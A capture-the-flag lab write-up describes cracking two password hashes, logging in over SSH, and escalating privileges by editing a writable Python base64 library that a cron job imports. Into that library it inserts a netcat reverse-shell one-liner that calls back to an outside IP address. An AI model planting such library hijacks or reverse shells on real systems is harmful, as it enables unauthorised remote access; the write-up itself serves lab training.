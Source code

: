 To to crackstation and crack the hashes:
Found: ``liberty123`` and ``valley``

Let us log in as the valley user:
```perl
ssh valley@10.10.241.125
```
Let’s use our past experiences, or surf on google some techniques or go through how other people have solved this room. Since _The crontab is used to automate all types of tasks on Linux systems_ we expect some juicy stuff to exist.

We see a python script let’s look at it’s contents.This script utilizes base64 library to encode an image into base64. What if we modify the base64 library in such a way that it connects back to our system and we get a reverse shell that would be awesome right. So let’s locate base64 library and check if it’s write-able.

```bash
locate base64
ls -al /usr/lib/python3.8/base64.py
```

It shows that this file is write-able so let’s do some hacking.

Now go to payload all things, and search for netcat openbsd reverse shell. Make note of it and then edit the base64 file add these two lines as shown here.

```r
#! /usr/bin/python3.8

"""Base16, Base32, Base64 (RFC 3548), Base85 and Ascii85 data encodings"""

# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii
import os
os.system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.42.185 4321 >/tmp/f')

__all__ = [
    # Legacy interface exports traditional RFC 2045 Base64 encodings
    'encode', 'decode', 'encodebytes', 'decodebytes',
    # Generalized interface for other encodings
    'b64encode', 'b64decode', 'b32encode', 'b32decode',
    'b16encode', 'b16decode',
    # Base85 and Ascii85 encodings
    'b85encode', 'b85decode', 'a85encode', 'a85decode',
    # Standard Base64 encoding
    'standard_b64encode', 'standard_b64decode',
    # Some common Base64 alternatives.  As referenced by RFC 3458, see thread
    # starting at:
```
